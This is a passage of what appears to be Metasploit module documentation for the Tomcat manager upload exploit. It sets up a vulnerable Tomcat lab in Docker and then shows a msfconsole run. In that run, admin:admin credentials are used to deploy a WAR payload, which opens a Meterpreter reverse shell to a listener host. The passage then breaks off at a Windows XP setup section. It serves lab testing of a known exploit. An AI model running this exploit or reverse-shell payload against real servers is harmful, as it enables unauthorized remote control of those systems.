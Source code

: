 ```sh

echo "User configuration:"
cat ./conf/tomcat-users.xml

echo "Manager configuration:"
cat ./webapps/manager/META-INF/context.xml

# Run tomcat as normal
catalina.sh run
```

Run the Docker process with the configured users and enabling management app:
```
docker run \
   --interactive --tty \
   --rm \
   --publish 8888:8080 \
   --volume $(pwd)/tomcat-users.xml:/usr/local/tomcat/conf/tomcat-users.xml \
   --volume $(pwd)/setup.sh:/usr/local/tomcat/setup.sh \
   tomcat:8.5.78-jre8-temurin /bin/bash setup.sh
```

It should be now be possible to run this module:
```
msf6 exploit(multi/http/tomcat_mgr_upload) > use exploit/multi/http/tomcat_mgr_upload
[*] Using configured payload java/meterpreter/reverse_tcp
msf6 exploit(multi/http/tomcat_mgr_upload) > run http://admin:admin@127.0.0.1:8888 lhost=192.168.123.1

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying YzO13d...
[*] Executing YzO13d...
[*] Undeploying YzO13d ...
[*] Sending stage (61456 bytes) to 192.168.123.1
[*] Undeployed at /manager/html/undeploy
[*] Meterpreter session 4 opened (192.168.123.1:4444 -> 192.168.123.1:58604 ) at 2022-05-10 16:55:34 +0100

meterpreter >
```

## Windows (xp sp2)
### Tomcat 6 (6.0.48)
#### Setup

1. Download and install the pre-req [Java7](http://www.oracle.com/technetwork/java/javase/downloads/jre7-downloads-1880261.html)
2. Download and install [Tomcat6](http://apache.osuosl.org/tomcat/tomcat-6/v6.0.48/bin/apache-tomcat-6.0.48.exe)
